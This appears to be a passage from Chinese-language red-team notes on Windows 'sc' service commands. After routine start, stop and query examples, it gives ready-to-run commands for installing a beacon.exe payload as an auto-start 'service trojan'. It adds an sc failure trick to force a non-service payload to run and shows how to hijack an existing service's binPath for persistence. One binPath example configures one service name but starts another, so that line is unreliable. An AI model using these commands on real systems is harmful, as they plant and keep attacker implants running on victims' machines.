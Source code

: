 ~~~cmd
sc start <Service Name>
~~~

##### 停止服务

~~~cmd
sc stop <Service Name>
~~~

##### 删除服务

~~~cmd
sc delete <Service Name>
~~~

##### 查询服务

~~~cmd
sc query

# Usage：
sc query <Service Name>
~~~

##### 修改服务配置

~~~cmd
sc config <Service Name> <parameter>= <value>
~~~

##### 创建服务马并启动该服务

~~~cmd
shell sc create <Server Name> binpath= "<path to executable>" start= auto && sc.exe start <Service Name>

# Usages：
# 非服务马的情况：启动会报错，但实际上是成功的
# 创建服务，设置服务启动失败之后执行命令，启动服务（非服务马启动失败之后会触发服务启动失败执行的命令）
shell sc create <Server Name> binpath= "cmd.exe /c start /b <path to executable>" start= auto && sc failure <Server Name> command= "\"cmd.exe /c start /b <path to executable>\"" && sc start <Server Name>

shell sc create publicsrv binpath= "cmd.exe /c start /b C:\tmp\beacon.exe" start= auto && sc failure publicsrv command= "\"cmd.exe /c start /b C:\tmp\beacon.exe\"" && sc.exe start publicsrv
~~~

#### 劫持路径

##### bin路径

“ ***binPath*** ”是将服务指向服务启动时需要执行的二进制文件的位置。Metasploit 框架可用于生成任意可执行文件

```cmd
# Usage
sc config <Server Name> binPath= "<path to executable>" && sc start <Server Name>

sc config Rex binPath= "C:\tmp\beacon.exe" && sc start Fax
```
